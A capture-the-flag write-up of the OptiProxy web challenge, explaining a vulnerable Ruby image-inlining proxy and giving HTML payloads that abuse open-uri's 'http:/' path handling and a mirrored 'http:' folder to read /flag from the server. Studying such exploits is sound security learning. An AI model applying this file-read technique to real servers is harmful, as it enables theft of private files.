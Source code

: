 # OptiProxy
*(web, solved by 115)*  
>  inlining proxy here http://optiproxy.bostonkey.party:5300

This was a fun challenge about a vulnerable Ruby program. Navigating to the webpage given brings us to a 
simple website that prompts us:

```
welcome to the automatic resource inliner, we inline all images go to /example.com to get an inlined 
version of example.com flag is in /flag source is in /source
```

Unfortunately the flag is not as easy as just navigating to http://optiproxy.bostonkey.party:5300/flag.

Navigating to `/source` gives us the source code:

```
require 'nokogiri' 
require 'open-uri' 
require 'sinatra' 
require 'shellwords' 
require 'base64' 
require 'fileutils' 

set :bind, "0.0.0.0" 
set :port, 5300 
cdir = Dir.pwd 

get '/' do str = "welcome to the automatic resource inliner, we inline all images" str << " go to 
/example.com to get an inlined version of example.com" str << " flag 
is in /flag" str << " source is in /source" str end 

get '/source' do IO.read "/home/optiproxy/optiproxy.rb" end 

get '/flag' do str = "I mean, /flag on the file system... If you're looking here, I question" str << " your 
skills" str end 

get '/:url' 
do 
	url = params[:url] 
	main_dir = Dir.pwd 
	temp_dir = "" 
	dir = Dir.mktmpdir "inliner" Dir.chdir dir 
	temp_dir = dir 
	exec = "timeout 2 wget -T 2 --page-requisites #{Shellwords.shellescape url}" `#{exec}` 
	my_dir = Dir.glob ("**/") Dir.chdir my_dir[0] 
	index_file = "index.html" 
	html_file = IO.read index_file 
	doc = Nokogiri::HTML(open(index_file)) 
	doc.xpath('//img').each 
	do 
		|img| header = img.xpath('preceding::h2[1]').text 
		image = img['src'] 
		img_data = "" 
		uri_scheme = URI(image).scheme 
			begin if (uri_scheme == "http" or uri_scheme == "https") 
				url = image 
			else 
				url = "http://#{url}/#{image}" 
			end 
		img_data = open(url).read 
		b64d = "data:image/png;base64," + Base64.strict_encode64(img_data) 
		img['src'] = b64d rescue # gotta catch 'em all puts "lole" next end 
	end 
	puts dir FileUtils.rm_rf dir Dir.chdir main_dir doc.to_html 
end
```

At first glance, you might think to try exploiting `exec = "timeout 2 wget -T 2 --page-requisites #{Shellwords.shellescape url}`, but I was unable to find anything online that is able to escape 
`Shellwords.shellescape`. I believe it's safe to assume, that's a well written module, with no known 
exploits, and finding a 0day in it, while possible, is probably outside the scope of the challenge.

Moving on to understanding what exactly the code is doing, it seems to follow these steps:

1. Parse out the parameter given after `/`, e.g. `example.com` if navigated to 
`http://optiproxy.bostonkey.party:5300/example.com`
2. Create a folder named `inliner` and change directory into it.
3. Run `wget` to create a mirror of the website provided in (1)
4. Parse `index.html` from the mirrored website, and for each `img` tag:   
  1. Grab the `src` parameter of the `img` tag
     * If the `src` parameter's URI scheme is `http` or `https`, it's good to go
     * Else if the URI scheme isn't `http` or `https`, then form a string that does have `http` uri scheme
  2. Open the `url` string created in (4a), and read the data from it
  3. Base64 the image data read, and change the `src` parameter of the img tag to the base64 of the image 
data
5. Return the `inliner` dir to the user of the web app, and clean up

Okay, so where's the exploit? First things first, I tried passing something more interesting than just a 
simple webpage as the `url` to the web app to inline, i.e. `file://../../../../flag`, meaning I navigated 
to `http://optiproxy.bostonkey.party:5300/file://../../../../flag`, but that just returns to us the error 
message saying flag isn't there. I then thought that what I actually need is a website with an `img` tag 
whose `src` parameter is `file://../../../../flag`, so I whipped that up quickly:

```
<html><body> 
<img src="file://../../../../flag" />
</body></html>
```

I served the webpage off of my remote server with `python3 -m http.server` for a quick HTTP server. 
Navigating over to `http://optiproxy.bostonkey.party:5300/mywebsite.com:8000` gives me a blank screen. 
Checking the console and source code reveals the issue: `Not allowed to load local resource: 
file://../flag`

It looks like the web app did mirror my website, it just didn't actually open the file, because of the 
`uri_scheme` check, `file != http`. Okay, so we really do need something that'll pass the URI scheme check, 
back to Google to learn more about Ruby's `uri_scheme` leads me to 
http://sakurity.com/blog/2015/02/28/openuri.html, *jackpot*. Interesting, it seems that a URL like 
`http:/foobar` will pass the `uri_scheme` check, and if we can somehow have a folder named `http:` (note 
the `:`) then we have a remote file read (into `/flag`!). *Now... how do we possibly make the folder named 
`http:`.* 

After some thinking, I realized the solution, just make our fake website have a subdirectory named `http:` 
that'll get included by the `index.html`, because the `wget` call in the webapp is 2 levels deep, this will 
work! 

```
<html><body> 
<img src="./http:/hi" />
<img src="http:/../../../../../../../../flag" /> 
</body></html>
```

Note that the 2nd `src` tag above, is to `http:/`, and not `http://`. Getting that website inlined, will 
cause the Ruby web application to create a directory structure with a folder named `http:` in it, and then 
open a file in reference to the folder `http:`, and return to us:

```
<html><body> 
<img src="data:image/png;base64,aGloaQo=">
<img src="data:image/png;base64,QktQQ1RGe21heWJlIGRvbnQgaW5saW5lIGV2ZXJ5dGhpbmcufQo="> 
</body></html>
```

Decode the 2nd base64:
`BKPCTF{maybe dont inline everything.}`
